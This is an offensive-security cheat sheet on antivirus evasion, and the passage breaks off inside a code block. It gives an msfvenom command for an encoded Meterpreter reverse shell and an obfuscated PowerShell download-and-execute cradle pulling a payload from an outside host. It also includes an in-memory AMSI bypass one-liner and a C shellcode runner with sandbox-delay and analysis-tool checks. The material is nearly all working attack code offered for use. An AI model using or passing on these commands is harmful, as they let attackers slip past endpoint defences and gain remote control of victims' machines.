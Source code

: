## Antivirus Evasion Techniques

### Payload Obfuscation
```bash
# Shellcode encoding
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x64/xor -i 10 -f csharp

# PowerShell obfuscation with Invoke-Obfuscation
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation -Command 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.1.100/payload.ps1\")"' -Quiet

# Use AMSI bypass techniques
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Context") {$f = $e}};$g = $f.GetValue($null);[IntPtr]$ptr = $g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

### Custom Payload Creation
```bash
# C/C++ shellcode runner with sleep and environment checks
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

// Check for sandbox/VM
bool isSandboxed() {
    // Check for common analysis tools
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) return false;
    
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    
    if (!Process32First(hSnapshot, &pe32)) {
        CloseHandle(hSnapshot);
        return false;
    }
    
    do {
        if (lstrcmpi(pe32.szExeFile, "wireshark.exe") == 0 ||
            lstrcmpi(pe32.szExeFile, "procmon.exe") == 0 ||
            lstrcmpi(pe32.szExeFile, "processhacker.exe") == 0) {
            CloseHandle(hSnapshot);
            return true;
        }
    } while (Process32Next(hSnapshot, &pe32));
    
    CloseHandle(hSnapshot);
    return false;
}

int main() {
    // Sleep to evade sandboxes
    Sleep(120000); // 2 minutes
    
    if (isSandboxed()) return 0;
    
    // Meterpreter shellcode here
    unsigned char buf[] = "SHELLCODE_HERE";
    
```